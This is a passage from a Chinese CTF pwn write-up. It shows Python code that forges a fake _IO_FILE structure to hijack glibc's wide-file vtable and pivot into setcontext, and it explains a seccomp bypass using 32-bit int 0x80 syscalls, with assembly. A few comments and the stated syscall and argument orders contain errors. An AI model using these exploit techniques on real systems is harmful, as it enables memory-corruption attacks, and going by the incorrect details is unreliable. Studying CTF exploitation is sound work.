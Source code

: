 在这里我调了好久，但老是进不去 `setcontext`，一开始以为是不是链子不好使了，结果最后 `gdb` 一调才发现我的 `fake_io` 是 `chunk1 - 0x10`，所以 `_flags` 和 `_IO_read_ptr` 已经是固定的了，需要调一调链子。

```python
io_wfile_jumps = libc_base+libc.sym['_IO_wfile_jumps']
setcontext = libc_base + libc.sym['setcontext']

fake_io_addr = heap_base + 0xb70                    # 伪造的fake_IO结构体的地址
fake_IO_FILE = p64(0)                               
fake_IO_FILE += p64(0) * 5
fake_IO_FILE += p64(1) + p64(2)                     # rcx!=0(FSOP)
fake_IO_FILE += p64(heap_base + 0xfc0 - 0x50)              # _IO_backup_base=rdx
fake_IO_FILE += p64(setcontext+61)                  # _IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x58, b'\x00')
fake_IO_FILE += p64(0)                              # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x78, b'\x00')
fake_IO_FILE += p64(heap_base+0x1000)               # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0x90, b'\x00')
fake_IO_FILE += p64(fake_io_addr+0x30)               # _wide_data,rax1_addr
fake_IO_FILE = fake_IO_FILE.ljust(0xb0, b'\x00')
fake_IO_FILE += p64(1)                              # mode=1
fake_IO_FILE = fake_IO_FILE.ljust(0xc8, b'\x00')
fake_IO_FILE += p64(io_wfile_jumps+0x30)            # vtable=IO_wfile_jumps+0x10
fake_IO_FILE += p64(0) * 6
fake_IO_FILE += p64(fake_io_addr+0x40)              # rax2_addr
```

![fake_IO_FILE](https://cdn.ova.moe/img/image-20221109112027047.png)

之后，程序流既然可以操控也可以 `ROP` 了，就想着写 `shellcode` 了。这里的沙箱有点🐂，第一次见，是从 `SEKAI CTF 2022 - HELLO WORLD SETUP` 里偷过来的，`i386` 和 `amd64` 的沙箱不一样，但是在 64 位下可以通过调用沙箱中可用的 32 位系统调用号调用 64 位对应的程序调用号（有点拗口？）

> 举个例子，32 位下 `SYS_fstat` 的系统调用号是 `5`，正对应了 64 位下的 `SYS_open`
>
> 此时我们就可以通过 32 位调用系统调用号时的设置。
>
> >  在 32 位下，传参按照 `ebx, ecx, edx, esi, edi, ebp` 的顺序
> >
> > 在 64 位下，就按 64 位 的 `rsi, rdi, rdx, rcx, r8, r9` 的顺序
>
> ```assembly
>     mov rax, 5
>     mov rbx, addr
>     xor rcx, rcx
>     xor rdx, rdx
>     int 0x80        # open(addr, 0, 0)
> ```
>
> 

具体的就直接抄 [HELLO WORLD SETUP WP](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/pwn/hello-world-setup/solution) 的沙箱就好
